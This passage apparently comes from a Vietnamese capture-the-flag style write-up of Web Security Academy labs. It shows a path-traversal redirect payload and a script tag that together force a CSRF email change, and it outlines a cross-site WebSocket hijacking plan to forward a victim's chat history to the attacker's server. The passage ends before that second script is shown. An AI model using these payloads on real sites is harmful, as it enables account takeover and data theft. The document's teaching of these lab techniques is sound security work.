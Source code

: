 Kiểm tra ta thấy sau khi comment thì trang web dừng khoảng vài giây rồi tự redirect về lại post đó 

```
/post/comment/confirmation?postId=5
```
Tham số postId sẽ được server dùng để nhúng vào đường dẫn `post/X` để redirect.

Vì kiểm soát được tham số này, ta sẽ sửa lại cho nó redirect tới chức năng thay đổi email.

```
X/../../my-account/change-email
```

Chức năng này không sử dụng CSRF token nên dễ bị khai thác.

Kiểm tra thêm ta thấy nó còn chấp nhận GET method, vậy ta cần sửa payload trên lại thành như sau:

```
X/../../my-account/change-email?email=aaaaaaaa%40gmail.com%26submit=1
```

Cuối cùng, lưu trên exploit server đoạn mã như sau, ta có thể khai thác CSRF.


```javascript!
<script>
document.location= 'https://0aed00dd04c37eaac07bb86e009000b0.web-security-academy.net/post/comment/confirmation?postId=foo/../../my-account/change-email?email=aaaaaaaa%40gmail.com%26submit=1'
</script>

```

> [color=#210b70] ![](https://i.imgur.com/5SmsGpT.png)


<hr>

### Bài 9:SameSite Strict bypass via sibling domain

> [color=#210b70] ![](https://i.imgur.com/pSBv8kX.png)

Chức năng live chat của trang web đang bị lỗi Cross-site WebSocket hijacking. Để solve bài lab, tìm cách đăng nhập vào tài khoản nạn nhân (bị lộ trong chat history).


Đầu tiên, truy cập trang web ta thấy rằng nó set cookie `Session` với thuộc tính `SameSite` có giá trị `Strict` tức là trình duyệt sẽ không bao gồm cookie này trong tất cả các request cross-site.

>![](https://i.imgur.com/iGd6ibM.png)

Sử dụng chức năng `Live chat`, ta thấy khi refresh trang web, nó sẽ gửi message `READY` tới server và server sẽ trả về toàn bộ đoạn hội thoại cũ.

>![](https://i.imgur.com/c9AvDaD.png)

Vậy để khai thác bài này, ta cần tìm cách dụ nạn nhân kích hoạt một message `READY` tới server, khi đó chỉ cần nhận kết quả trả về từ server và forward các kết quả nhận được về tới máy chủ ta. Lúc đó sẽ có toàn bộ lịch sử chat.

Sử dụng đoạn Javascript như sau để thử gửi `READY` tới socket trên server (địa chỉ thu được từ form chat):
